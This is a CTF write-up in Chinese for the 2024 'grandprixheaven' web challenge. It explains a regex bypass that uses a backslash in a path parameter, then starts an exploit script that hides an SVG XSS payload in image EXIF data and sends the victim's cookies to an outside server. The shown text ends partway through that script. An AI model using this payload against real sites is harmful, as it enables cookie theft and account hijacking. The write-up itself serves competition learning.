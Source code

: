 ![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/6b26b0c6-1e00-4d62-ae2e-5f60879241d4)

以後來看一下頁面

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a70d0d7e-1e55-4b03-b651-ab199381bbb5)

可以看到成功拿到 mediaparser，但由於我們 `F1` param 裡的 path 也就是 `https://grandprixheaven-web.2024.ctfcompetition.com/api/get-car/<F1>` 是 json 所以要想辦法讓 `F1` 跳到圖片的路徑，比如說 `../../media/<img-id>`。

但是 `retrieve.js` 有路徑檢查

```js
if (!path) throw new Error("no path");
            let re = new RegExp(/^[A-z0-9\s_-]+$/i);
            if (re.test(path)) {
              // normalize
              let cleaned = path.replaceAll(/\s/g, "");
              return cleaned;
            } else {
              throw new Error("regex fail");
            }
```

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/6cc23108-5d12-4abc-9ddb-a1f44a9362be)

所以這邊要想辦法繞 RegExp。

裡面有一個部分很有趣，那就是 `A-z` 這邊應該要是 `A-Za-z`，這樣寫或造成的影響是，因為他是依照 ascii 的順序，因此放在 Z 到 a 中間的字元是可以用的，也就是 ``Z[\]^_`a`` 其中的 `\`，因為 `retrieve.js` 做 request 時會用 `new URL` 做 url parse，而 `\` 會被他解成 `/`，並且如果 path 是絕對路徑時，他會把 base url 裡變得 path 蓋掉，所以如果我放 `\media\<img-id>` 會被他解析成 `https://grandprixheaven-web.2024.ctfcompetition.com/media/<img-id>`，這樣就成功繞過了。

因此我們的 xss url 會是 `https://grandprixheaven-web.2024.ctfcompetition.com/fave/<car-id>?F1=\media\<img-id>`，把這個丟 `report` 就能 xss

所以整體順序是：
1. 先生帶 xss payload 的圖片
2. 新增車並上傳該圖片，並且對 custom 做操作繞過檢查塞進 `mediaparser` 且拔掉 `csp`
3. 取得車的 url
4. 解析 json 拿到 img-id
5. 構建 xss url

## exploit

```python
from PIL import Image
import piexif
import io
import requests
import urllib.parse

url = "https://grandprixheaven-web.2024.ctfcompetition.com"
httpserver = "https://vpn.chummydns.com:20000/"

img = Image.new('RGB', (10, 10))
exif_dict = {'0th': {270: f"<svg><svg/onload='window.location=\"{httpserver}\"+document.cookie'>"}}
exif_bytes = piexif.dump(exif_dict)

buffer = io.BytesIO()

img.save(buffer, format='JPEG', exif=exif_bytes)

buffer.seek(0)

r = requests.post(urllib.parse.urljoin(url, '/api/new-car'), allow_redirects=False, files={
    'image': ('test.jpg', buffer, 'image/jpeg'),
}, data={
    'year': 2004,
    'make': 'aaa',
    'model': 'aaa',
```